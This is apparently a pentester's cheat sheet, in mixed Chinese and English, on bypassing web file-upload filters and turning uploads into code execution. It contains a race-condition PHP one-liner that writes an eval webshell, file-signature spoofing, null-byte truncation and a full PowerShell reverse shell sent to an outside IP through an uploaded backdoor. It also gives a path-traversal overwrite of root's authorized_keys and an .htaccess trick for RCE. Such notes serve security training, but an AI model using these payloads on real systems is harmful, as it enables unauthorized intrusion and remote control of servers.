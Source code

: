 ### File Extensions
```
.phps or .php7
From .php to .pHP
```
For Windows
```
1.jsp.
```
### 截断
```
filename.php%00.pdf
```
### 条件竞争绕过
服务器对文件进行检测，如果不符合则删除文件，这其中需要一些时间，我们可以利用这个时间差进行上传木马，要求服务器接收到文件不会重命名。
我们将上传的文件写为：
```
<?php fputs(fopen('shell.php','w'),'<?php eval($_GET[cmd])?>');?>
```
### 文件类型特征码（Convert to ascii in burp）
Put the corresponding file signature code in front of the file content in burp 
```
JPEG (jpg)，文件头：FFD8FF
PNG (png)，文件头：89504E47
GIF (gif)，文件头：47494638
TIFF (tif)，文件头：49492A00
Windows Bitmap (bmp)，文件头：424D
CAD (dwg)，文件头：41433130
Adobe Photoshop (psd)，文件头：38425053
Rich Text Format (rtf)，文件头：7B5C727466
XML (xml)，文件头：3C3F786D6C
HTML (html)，文件头：68746D6C3E
Email [thorough only] (eml)，文件头：44656C69766572792D646174653A
Outlook Express (dbx)，文件头：CFAD12FEC5FD746F
Outlook (pst)，文件头：2142444E
MS Word/Excel (xls.or.doc)，文件头：D0CF11E0
MS Access (mdb)，文件头：5374616E64617264204A
WordPerfect (wpd)，文件头：FF575043
Postscript (eps.or.ps)，文件头：252150532D41646F6265
Adobe Acrobat (pdf)，文件头：255044462D312E
Quicken (qdf)，文件头：AC9EBD8F
Windows Password (pwl)，文件头：E3828596
ZIP Archive (zip)，文件头：504B0304
RAR Archive (rar)，文件头：52617221
Wave (wav)，文件头：57415645
AVI (avi)，文件头：41564920
Real Audio (ram)，文件头：2E7261FD
Real Media (rm)，文件头：2E524D46
MPEG (mpg)，文件头：000001BA
MPEG (mpg)，文件头：000001B3
Quicktime (mov)，文件头：6D6F6F76
Windows Media (asf)，文件头：3026B2758E66CF11
MIDI (mid)，文件头：4D546864
```
### Powershell reverse shell
```
kali: pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText

curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20(replaced by $EncodedText)
```

### If can't execute uploaded file, try overwriting file
```
ssh-keygen
filename: fileup
cat fileup > authorized_keys
upload ../../../../../../../root/.ssh/authorized_keys
rm ~/.ssh/known_hosts
ssh -p 2222 -i privatekey root@mountaindesserts.com
```
### Webshell
https://github.com/WhiteWinterWolf/wwwolf-php-webshell
### Upload .htaccess to rce
Blue teamers and developers are usually quick to blacklist file extensions, but rarely consider how webserver configuration files themselves can be exploited. Hence why the .htaccess technique can be so dangerous, even leading to RCE.

This file isn't directly an RCE vector, but it does allow for the definition of new valid PHP extensions, which can then be uploaded to the server (as they are not blacklisted).

An example .htaccess file that can be used to add a new PHP extension is:

AddType application/x-httpd-php .evil
Note that this attack relies on the following options being enabled, and NGINX does not support .htaccess files.
```
/etc/apache2/apache2.conf:      AllowOverride Options
/etc/apache2/apache2.conf:      AllowOverride FileInfo
```
Upload webshell.evil, then access webshell.evil
